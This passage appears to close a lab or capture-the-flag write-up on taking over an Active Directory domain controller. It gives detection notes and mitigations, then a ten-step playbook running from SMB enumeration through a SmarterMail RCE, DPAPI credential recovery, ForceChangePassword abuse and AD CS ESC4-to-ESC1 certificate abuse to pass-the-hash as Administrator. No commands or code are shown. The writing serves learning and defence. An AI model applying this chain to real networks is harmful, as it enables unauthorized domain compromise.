* **WAC:** PowerShell execution through WAC can blend with legitimate administration but becomes suspicious when followed by unusual application exploitation.

* **DPAPI:** Accessing another user's credential artifacts can generate file-access anomalies depending on endpoint auditing.

* **AD Modifications:** Password resets and DACL changes are highly valuable identity telemetry.

* **AD CS:** Template creation/modification and unusual certificate enrollment are particularly strong detection opportunities.

* **PKINIT:** Authentication as a privileged account immediately after suspicious certificate enrollment provides an effective correlation point.

* **Post-Exploitation:** Administrative access enabled retrieval of `root.txt` and provided full control of the Domain Controller.

### Defensive Mitigation

* **Technical Hardening:**

* **SMB:** Disable unnecessary anonymous/Guest access and restrict access to sensitive shares.

* **WAC:** Restrict Windows Admin Center access to authorized administrators and monitor PowerShell execution through WAC.

* **Application Security:** Patch SmarterMail and remove or protect historical backups containing credentials.

* **Credential Protection:** Protect DPAPI masterkeys and Credential Manager data through appropriate account isolation and endpoint controls.

* **AD ACLs:** Remove unnecessary `ForceChangePassword` permissions and regularly review delegated rights.

* **AD CS:** Remove orphaned certificate-template references and restrict who can create or modify certificate-template objects.

* **Certificate Templates:** Prevent ordinary users from controlling templates capable of Client Authentication or allowing enrollee-supplied subjects.

* **PKI Monitoring:** Alert on changes to certificate-template ownership, DACLs, enrollment flags, and application policies.

* **Privileged Authentication:** Monitor certificate-based authentication to privileged accounts.

* **Personnel Focus:**

* AD administrators should regularly review BloodHound-style effective permissions and delegated rights.

* PKI administrators should inventory CA-published templates against actual AD template objects.

* Security teams should treat **ESC4 -> ESC1** as a high-priority privilege-escalation path.

* SOC analysts should correlate certificate enrollment with subsequent privileged Kerberos authentication rather than investigating either event independently.

### Quick-Action Playbook

| Step | Objective                       | Technique / Concept                                                        |
| :--: | :------------------------------ | :------------------------------------------------------------------------- |
|   1  | **Initial Enumeration**         | **Anonymous / Guest SMB enumeration**                                      |
|      |                                 | Identify accessible non-standard shares such as `IT`.                      |
|   2  | **Initial Execution**           | **Windows Admin Center / WinREST PowerShell**                              |
|      |                                 | Establish command execution as `anderson.w`.                               |
|   3  | **Service Account Pivot**       | **SmarterMail RCE - CVE-2026-23760**                                       |
|      |                                 | Obtain execution as `svc_mail` and access historical application data.     |
|   4  | **Credential Recovery**         | **DPAPI + Credential Manager**                                             |
|      |                                 | Decrypt `noah.b`-accessible DPAPI artifacts to recover `alex.o`.           |
|   5  | **Account Takeover**            | **ForceChangePassword**                                                    |
|      |                                 | Abuse `alex.o`'s delegated permission over `jake.h`.                       |
|   6  | **PKI Enumeration**             | **AD CS / orphaned certificate template discovery**                        |
|      |                                 | Identify the published-but-missing `RemoteAccessVPN` template.             |
|   7  | **PKI Privilege Escalation**    | **ESC4 -> ESC1**                                                            |
|      |                                 | Recreate the template, obtain FullControl, and configure it for ESC1.      |
|   8  | **Administrator Impersonation** | **ESC1 certificate enrollment**                                            |
|      |                                 | Request a certificate representing the built-in Administrator account.     |
|   9  | **Authentication**              | **PKINIT**                                                                 |
|      |                                 | Authenticate using the Administrator certificate and obtain the NTLM hash. |
|  10  | **Administrative Access**       | **Pass-the-Hash**                                                          |
|      |                                 | Use the recovered Administrator hash to obtain full administrative access. |

**Thanks for a Read!**
